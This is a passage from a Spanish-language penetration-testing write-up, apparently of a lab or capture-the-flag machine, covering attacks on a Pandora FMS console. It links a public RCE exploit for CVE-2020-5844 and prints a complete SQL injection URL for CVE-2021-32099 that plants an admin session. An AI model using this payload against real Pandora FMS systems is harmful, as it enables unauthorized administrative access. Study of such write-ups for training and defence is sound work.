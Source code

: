 ![](pandora2.jpg)

BINGO!
Ya se puede ver otra interfaz y una versión de esta, es un buen segundo punto de partida.
### CVE-2020-5844
Al tener una versión en internet, se encontró que existe una vulnerabilidad para obtener un RCE en la aplicación web, pero para ello se necesita estar autenticado con un inicio de sesión valido (https://github.com/UNICORDev/exploit-CVE-2020-5844).

### CVE-2021-32099
Asi que buscando otras opciones para poder acceder a un panel de administrador, logre encontrar otro CVE que es un sql injection, al parecer funciona de la siguiente forma: Se puede agregar una direccion y aprovechando al sqli agrega una sesion para el usuario admin.
La url a ingresar seria esta ya modificada a lo que necesito.
~~~url
http://127.0.0.1:8081/pandora_console/include/chart_generator.php?session_id=PayloadHere%27%20union%20select%20%271%27,%272%27,%27id_usuario|s:5:%22admin%22;%27%20--%20a
~~~
En teoria agregara una sesion como admin y tan solo con recargar la página en la direccion "http://127.0.0.1:8081/pandora_console/" ya se tendria acceso al panel de administración.

![](pandora3.jpg)
